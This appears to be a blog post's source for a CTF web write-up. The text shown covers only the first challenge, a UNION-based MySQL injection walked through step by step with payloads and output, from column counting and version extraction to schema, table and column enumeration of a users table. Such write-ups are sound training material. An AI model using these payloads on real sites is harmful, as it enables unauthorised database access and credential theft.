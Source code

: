 ```yaml
---
layout: post
title: ECW CTF - Web Writeups
image: /images/default.jpg
---
```


## Challenges's Writeup - Online Prequals

- [Web 50 - Hall of Fame](ECW-CTF/#web-50---hall-of-fame)
- [Web 100 - Pass Through](ECW-CTF/#web-100---pass-through)
- [Web 150 - GoldFish](ECW-CTF/#web-150---goldfish)
- [Web 175 - Magic Car](ECW-CTF/#web-175---magic-car)



## Web 50 - Hall of Fame
This challenge was a basic SQL injection, let's follow our [methodology](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL injection/MySQL Injection.md) and extract the informations in the database. First we need to extract the columns number of the current "SELECT column1, column2 FROM ..."
{% highlight php%}
1'  union select 1,2,3,4,5,6#
{% endhighlight %}
We can clearly see the injection point is located in the 4th columns.

Let's extract the version now
{% highlight php%}
1'  union select 1,2,3,version(),5,6#
5.7.17-0ubuntu0.16.04.1	5
{% endhighlight %}

Extract database name
{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(0x7c,schema_name,0x7c),5,6 fRoM information_schema.schemata#
3	|information_schema|,|ecw|	5
{% endhighlight %}
This is interesting, there is an ECW database. Let's dig into it by extracting the table name.
{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C),5,6 fRoM information_schema.tables wHeRe table_schema="ecw"#
3	|users|	5
{% endhighlight %}

Extract columns name
{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C),5,6 fRoM information_schema.columns wHeRe table_name="users"#
3	|rank|,|username|,|score|,|password|,|comment|	5
{% endhighlight %}
That's great now we can do a simple "SELECT" query to get the username and password of every users.
